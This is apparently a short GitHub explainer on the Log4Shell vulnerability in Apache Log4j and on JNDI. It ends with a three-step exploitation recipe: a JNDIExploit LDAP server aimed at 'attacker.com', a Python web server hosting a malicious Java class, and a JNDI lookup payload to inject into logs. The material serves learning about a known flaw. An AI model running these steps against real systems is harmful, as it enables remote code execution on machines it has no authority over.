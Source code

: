 # What is Log4Shell?
  >Log4Shell is a critical Remote Code Execution (RCE) vulnerability in Apache    Log4j   a widely used Java logging library.

 >CVE-2021-44228 was published on December 9, 2021.

 >Allows attackers to execute arbitrary code remotely by injecting JNDI lookups in log messages.

 >Affects Log4j versions 2.0 to 2.14.1 (fixed in 2.15.0+).

 >Considered a zero-day vulnerability because attackers exploited it before a patch  was available.

# what is log4 2 , and what does it do 
  >Log4j 2 is an open-source Java logging framework used to record logs in applications.

  >Developers use it to log errors, system activity, and user inputs.

  >The vulnerability occurs because Log4j processes untrusted user input and performs JNDI lookups, allowing remote code execution.

  >Attackers commonly use LDAP servers (running on port 1389) to serve malicious Java payloads


# What is jndi 
 > java Naming and Directory Interface is an API  in java that allows applications to interact with naming and directory  like LDAP , DNS , RMI

 > help java application look up resources , objects , services dynamically at runtime

 > Commonly used with LDAP (Lightweight Directory Access Protocol) to retrieve stored objects.
 

# Step to expolit
 1.Set up a malicious LDAP server to deliver a remote payload
  > java -jar JNDIExploit-1.2-SNAPSHOT.jar -i attacker.com -p 1389

 2.Host the malicious java class on a web server
  > pyhton3 -m http.server 8000

 3. Inject the payload into vulnerable application's log
   > ${jndi:ldap:$HOST:$PORT}

